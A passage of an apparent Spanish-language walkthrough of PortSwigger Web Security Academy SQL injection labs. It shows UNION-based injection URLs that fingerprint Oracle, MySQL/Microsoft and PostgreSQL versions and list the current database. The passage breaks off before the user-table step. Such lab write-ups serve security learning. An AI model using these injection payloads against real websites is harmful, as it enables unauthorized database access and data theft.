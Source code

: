 ```http
https://acc31f241f82d489800a5ce2002a001b.web-security-academy.net/filter?category=Accessories' union select banner,null from v$version --
```
  
####  Lab8: SQL injection attack, querying the database type and version on MySQL and Microsoft
  
  
Ahora ya sabiendo como sacar las columnas podemos definir el resultado facilmente, en este caso la consulta a `SELECT @@version` sirve para base de datos de MySQL y Microsoft. En este caso `@@version` nos permite sacar la version y esta puede ser usada directamente como atributo en una consulta select por lo que no es necesario apuntar a una tabla como en el ejercicio anterior.
  
Nota: Para el uso de comentarios solo en MySQL es necesario que este sea acompañado de un espacio luego del uso de `--` y para que la pagina acepte la consulta en el url colocamos algo despues de ese espacio.
  
```http
https://ac0a1fa31ee8d2378087449100450099.web-security-academy.net/filter?category=Corporate+gifts' union select null,@@version -- algo
```
  
###  Listing the contents of the database
  
  
####  Lab9: SQL injection attack, listing the database contents on non-Oracle databases
  
  
Cantidad de columnas 
  
```http
https://ac331f5e1ed3d20e80bd47dc00a60093.web-security-academy.net/filter
?category=Gifts' union select 'null','null' --
```
  
no fue necesario agregar texto luego de los comentarios y tampoco fue necesario agreagar una columna dual por lo que descartamos MySQL y Oracle
  
Ahora tratemos de sacar la version de la base de datos
  
```http
https://ac331f5e1ed3d20e80bd47dc00a60093.web-security-academy.net/filter
?category=Gifts' union select 'a',version() --
```
  
tenemos entonces una DBMS que es PostgreSQL
  
`PostgreSQL 11.2 (Debian 11.2-1.pgdg90+1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 6.3.0-18+deb9u1) 6.3.0 20170516, 64-bit`
  
Lo siguiente sería conocer en que base de datos estamos actualmente (opcional)
  
```http
https://ac331f5e1ed3d20e80bd47dc00a60093.web-security-academy.net/filter
?category=Gifts' union select 'a',current_database() --
```
  
Bueno estamos en la tabla postegres, lo siguiente sería buscar la tabla que nos intereza, la de usuarios
  